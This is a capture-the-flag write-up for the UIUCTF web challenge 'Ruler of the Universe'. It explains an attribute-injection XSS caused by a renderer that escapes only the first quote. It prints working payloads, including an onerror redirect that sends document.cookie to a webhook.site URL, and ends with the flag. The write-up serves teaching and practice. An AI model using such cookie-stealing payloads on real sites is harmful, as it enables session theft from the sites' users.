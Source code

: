 # web/Ruler of the Universe write-up

**Challenge name**: web/Ruler of the Universe (Cameron)

**Description**: With this ship I have the entire universe at my fingertips.

Instancer url: [https://ruler-of-the-universe.chal.uiuc.tf/](https://ruler-of-the-universe.chal.uiuc.tf/)

**Files**: [handout.tar.gz](attachments/handout.tar.gz)

**TL;DR**: XSS challenge - false HttpOnly, flawed JSX renderer

## Initial analysis

### Looking at the web app

The challenge presents a sci-fi themed dashboard for a spaceship (the pictures below are shown from a live instance, but when working out the problem, this can be done locally via running the Docker file).

On the home page, we see the links to view details for the three modules, and an admin bot link in the top right corner:

![Home page showing module links and admin bot](attachments/Screenshot_2025-07-28_173940.png)

On each module page, we see that there's an interactive "Crew Message" input field:

![First module page with crew message input field](attachments/Screenshot_2025-07-28_173956.png)

![Second module page with crew message input field](attachments/Screenshot_2025-07-28_174005.png)

![Third module page with crew message input field](attachments/Screenshot_2025-07-28_174012.png)

The admin bot page has a field for submitting an URL input:

![Admin bot page with URL input field](attachments/Screenshot_2025-07-28_174155.png)

### Looking at the code

Here is the file tree after unzipping `handout.tar.gz`:

```bash
├── adminbot
│   ├── Dockerfile
│   ├── bun.lock
│   ├── index.html
│   ├── index.ts
│   ├── package.json
│   └── tsconfig.json
└── challenge
    ├── Dockerfile
    └── src
        ├── app
        │   ├── app.tsx
        │   ├── data
        │   │   └── modules.ts
        │   └── pages
        │       ├── home.tsx
        │       └── module.tsx
        ├── bun.lock
        ├── index.tsx
        ├── my_jsx
        │   ├── index.ts
        │   └── jsx-dev-runtime.ts
        ├── package.json
        └── tsconfig.json
```

The `index.ts` file in the `adminbot` reveals that the admin bot sets up an endpoint that accepts a `POST` request, takes a `url_part`, and visits the corresponding page using a headless browser:

```ts
POST: async (req) => {
  const body = (await req.json()) as Body;
  // ...
  const newUrl = `${mainUrl}/${body.url_part}`;
  const browser = await puppeteer.launch({ ... });
  const page = await browser.newPage();
  // ...
  await page.goto(newUrl, { ... });
}
```

From the same file, we also see that the flag is set as a cookie before the page is visited: 

```ts
await browser.setCookie({
  name: "flag",
  value: FLAG,
  domain: new URL(mainUrl).hostname,
  httpOnly: false, 
  secure: true,
});
```

The `httpOnly: false` setting is the key takeaway. This means that the cookie's value can be accessed by client-side JavaScript code through `document.cookie`. So we want to steal the cookie!

## Tracing the message via source-to-sink analysis

Sources are points where malicious inputs enter the application, and the sinks are the vulnerable locations where those inputs are executed.

Now we need to find an input vector in the main application. From `challenge/src/index.tsx`, we see the following code:

```tsx
"/module/:id": {
      GET: (req) => {
        const moduleId = parseInt(req.params.id);
        const crewMessage = new URL(req.url).searchParams.get("message");

        return new Response(
          render(
            <App>
              <Module id={moduleId} crewMessage={crewMessage} />
            </App>
          ),
          // ...
        );
      },
    }
```

The `/module/:id` endpoint's `crewMessage` accepts a `message` query parameter read from the URL. This `message` query parameter is our source!

```tsx
const crewMessage = new URL(req.url).searchParams.get("message");
```

Then, the `crewMessage` variable is passed as a prop to the `Module` component: 

```tsx
<Module id={moduleId} crewMessage={crewMessage} />
```

Following this to the Module component, we see that inside `challenge/src/app/pages/module.tsx`, the `crewMessage` prop is rendered inside the `placeholder` attribute of an `<input>` tag. This is our sink!

```tsx
<input
  id="message"
  name="message"
  type="text"
  class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
  placeholder={
    crewMessage
      ? `Update your message: ${crewMessage}`
      : "Enter a message for the crew"
  }
/>
```

The security of the application now rests on the custom renderer in `challenge/src/my_jsx/index.ts`:

```ts
return `${key}="${String(value).replace('"', "&quot;")}"`;
```

The renderer only escapes the first double-quote (`"`) character with its HTML entity, `&quot;`. It fails to sanitize any other special characters. This means if we inject our own double-quote, we can break out of the `placeholder` attribute string and inject new attributes, such as an event handler, to execute JavaScript.

## Crafting the exploit

First, we can do a proof-of-concept with a simple payload to break out of the attribute: 

```js
""/><img src=x onerror=alert(1)>
```

The initial `"` closes the `placeholder attribute`, allowing the `<img>` tag with its `onerror` event handler to be injected as a new, distinct element. Because the `src` attribute is invalid (`x`), the image fails to load, triggering the `onerror` event and executing your `alert(1)` script. 

To clarify, here is the full HTML transformation below: 

```js
<input 
  // ... 
  placeholder="Update your message: &quot;"/><img src=x onerror=alert(1)>"
```

After typing this in the "Crew Message" input box, an alert box confirms a successful XSS. 

![Alert box confirming successful XSS](attachments/Screenshot_2025-07-28_174132.png)

A webhook is a private, unique URL that acts as a simple data receiver. When we send an HTTP request (e.g. GET) to a webhook URL, the service logs information about the request. In this XSS attack, our JavaScript payload runs on the admin bot's browser, not ours. We have no way to see the output directly. The webhook serves as destination to send the stolen data. One way we can set up a simple webhook is via a service like [webhook.site](https://webhook.site/):

![Webhook.site interface showing unique webhook URL](attachments/Screenshot_2025-07-28_174436.png)

Knowing our goal is to steal the cookie, we can craft a payload to send the `document.cookie` (we've also added the `innerText` here to show the injection more clearly):

```js
""/><img src=x onerror="location='https://webhook.site/<YOUR_UNIQUE_ID>?c='+encodeURIComponent(document.cookie)+'&b='+encodeURIComponent(document.body.innerText)">
```

This script hijacks the `onerror` event to redirect the page, sending the encoded cookie as a query parameter to our webhook.

The final payload contains special characters that must be URL-encoded to be correctly interpreted when passed in the `message` parameter:

```
%22%22/%3E%3Cimg%20src%3Dx%20onerror%3D%22location%3D%27https://webhook.site/<YOUR_UNIQUE_ID>%3Fc%3D%27%2BencodeURIComponent(document.cookie)%2B%27%26b%3D%27%2BencodeURIComponent(document.body.innerText)%22%3E
```

We can then construct the `url_part`:

```
module/0?message=%22%22/%3E%3Cimg%20src%3Dx%20onerror%3D%22location%3D%27https://webhook.site/<YOUR_UNIQUE_ID>%3Fc%3D%27%2BencodeURIComponent(document.cookie)%2B%27%26b%3D%27%2BencodeURIComponent(document.body.innerText)%22%3E
```

And submit it to the admin bot:

![Admin bot submission form with malicious URL](attachments/Screenshot_2025-07-28_174719.png)

The admin bot visits the malicious link, triggering the XSS. Its browser sends the cookie to our webhook server, where the flag appears in the logs. 

![Webhook logs showing captured flag data](attachments/Screenshot_2025-07-28_174543.png)

The flag is: `uiuctf{maybe_i_should_just_use_react_c49b79}`

(When we render a variable in React, it automatically escapes the content to try to prevent XSS attacks!)

## Resources

- HttpOnly: https://owasp.org/www-community/HttpOnly
- LiveOverflow explanation of sources and sinks: https://www.youtube.com/watch?v=ZaOtY4i5w_U
- XSS protection and vulnerabilities in React: https://stackoverflow.com/questions/33644499/what-does-it-mean-when-they-say-react-is-xss-protected
- XSS: https://owasp.org/www-community/attacks/xss/